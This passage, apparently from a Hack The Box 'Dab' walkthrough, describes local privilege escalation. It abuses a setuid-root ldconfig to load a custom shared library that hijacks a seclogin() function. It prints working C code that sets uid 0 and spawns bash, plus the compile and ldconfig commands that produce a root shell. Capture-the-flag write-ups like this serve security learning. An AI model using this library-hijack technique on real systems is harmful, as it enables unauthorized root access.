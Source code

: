 Running `ldd` reveals the use of a dynamic shared object or library.

<a class="image-popup">
![1496d8c9.png](/assets/images/posts/dab-htb-walkthrough/1496d8c9.png)
</a>

Earlier on, I notice that `ldconfig` and `ldconf.real` are also `setuid` to `root`. Pivoting on that, I found a special place to put our own shared object to bypass the original `seclogin()` function to do something more malevolent. I also discover a `cron` job that deletes files created within two minutes in `/tmp` at every minute. The window of opportunity is one minute. We need to act fast!

<a class="image-popup">
![d89a711d.png](/assets/images/posts/dab-htb-walkthrough/d89a711d.png)
</a>

With that in mind, let's go about creating our own shared object with the following code:

<div class="filename"><span>seclogin.c</span></div>

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void seclogin() {
  setuid(0);
  setgid(0);
  puts("Spawning shell...");
  system("/bin/bash");
}
```

Compile the code to a shared object like so.

```
$ gcc -Wall -fPIC -shared -o libseclogin.so seclogin.c
```

Then run the following command.

```
cp libseclogin.so /tmp; ldconfig; myexec
```

Boom. We have a `root` shell.

<a class="image-popup">
![0acf598a.png](/assets/images/posts/dab-htb-walkthrough/0acf598a.png)
</a>
